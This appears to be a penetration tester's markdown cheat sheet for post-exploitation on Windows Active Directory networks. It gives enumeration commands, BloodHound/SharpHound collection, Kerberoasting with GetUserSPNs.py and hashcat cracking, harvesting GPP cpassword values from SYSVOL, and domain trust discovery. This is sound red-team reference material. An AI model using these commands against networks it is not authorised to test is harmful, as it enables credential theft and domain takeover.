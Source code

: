 # Basics on what to do upon getting shell/rce


**Note:** Try as much as possible to [Live off the land](https://lolbas-project.github.io/)
___

## Just basic stuff

```batch
whoami /all
hostname
ipconfig /all
systeminfo
gpresult /R 
dir
tree /f /a
tasklist /V
net user
net user /domain
net user <username>
net user <username> /domain
net localgroup
net localgroup administrators
net groups /domain
net group "<group>" /domain
net group "domain admins" /domain
klist
```
___
## NLTest[^1]
       
```batch
nltest /dclist:<domain>
nltest /dsgetdc:<domain>
nltest /domain_trusts /all_trusts
```
___
## Powershell Enumeration[^1]

```powershell        
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
[System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()
([System.DirectoryServices.ActiveDirectory.Forest]::GetForest((New-Object System.DirectoryServices.ActiveDirectory.DirectoryContext('Forest', '<domain>')))).GetAllTrustRelationships()
```
___ 

## [Dumping credentials](../../#dumping-credentials)
___
## Bloodhound (Sharphound)[^2] 

1. On local machine  (~Kali)


```batch
git clone https://github.com/fox-it/BloodHound.py.git #Bloodhound.py does not have all the features compared to the original Sharphound ingestors
cd BloodHound.py/ && pip install .
bloodhound-python -d <domain> -u <username> -p <password> -gc <domain_controller> -c all

sudo apt install neo4j bloodhound
# Access neo4j and change the neo4j/neo4j default credentials.
# While neo4j is still running, run bloodhound
bloodhound
```

1. Sharphound Officialy supported ingestors [^3][^4]
   * Running the official/supported Sharphound Collectors collects more information [
       * although Bloodhound.py is quick and good for most cases
   * Runas
       * If logged in on a local user account but have domain user credentials, then on the command-line
       * This works also to get SharpHound to work and ingest data even if your own Windows VM is not part of the Domain.
           * This bypasses the need to run SharpHound ps1 on the host itself with AVs/ERDs
       ```powershell
       C:\> runas /netonly /user:<DOMAIN>\<username> powershell.exe

       # then on the spawned powershell
       Import-Module .\SharpHound.ps1
       Invoke-BloodHound -CollectionMethod All -CompressData -RemoveCSV -NoSaveCache
       ```
   * Run after sharphound for some nice statistics
       * [Bloodhound Quickwin](https://github.com/kaluche/bloodhound-quickwin)   

___
## General Attack methods
* Methods [^5][^6]
     * Golden Ticket
         * Requires full domain compromise.
         * Used for persistenceand pivoting
     * Kerberoasting
         * Requires access as any user. 
         * Use to escalateand pivot
     * Silver Ticket
         * Requires service hash.
         * Use for persistenceand escalation
     * Pass-the-Ticket
         * Requires access as user.
         * Use to pivot
     * Over-Pass-the-Hash
         * Requires access as user.
         * Use to pivot
___

## Kerberoasting
1. From Linux [^1][^7]
    * Beware of time difference of the attacking machine (Kali) and the targeted Domain Controller
    ```bash
    GetUserSPNs.py -debug -request -outputfile TGS_file.txt -dc-ip <DC_IP_Address> <FQDN>/<username>
    ```

1. From Windows
    * Refer to [m0chan's blog](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html)
    ```batch
    hashcat64.exe -a 3 -m 13100 SPN.hash /wordlists/rockyou.txt
    ```

___

## Gathering Windows GPP passwords[^8]

1. On target machine logged-on with a regular domain account
    ```batch
    findstr /S cpassword \\<domain_controller>\sysvol\*.xml
    ```
1. On local machine (~Kali)
    ```bash
    gpp-decrypt <cpassword_value>
    ```

___

## ADFind[^9]
```batch
adfind.exe -f objectclass=trusteddomain
adfind.exe -sc trustdmp
```
    
[^1]: [ired.team](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets)
[^2]: [hausec](https://hausec.com/2019/03/12/penetration-testing-active-directory-part-ii/)
[^3]: [Github - Bloodhound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors)
[^4]: [ReadTheDocs - Bloodhound](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html)
[^5]: [Red Siege](https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf)
[^6]: [Orange Cyberdefense](https://raw.githubusercontent.com/Orange-Cyberdefense/arsenal/master/mindmap/pentest_ad.png)
[^7]: [Tarlogic Security](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
[^8]: [Pure Security](https://pure.security/dumping-windows-credentials/)
[^9]: [Redcanary](https://redcanary.com/threat-detection-report/techniques/domain-trust-discovery/)
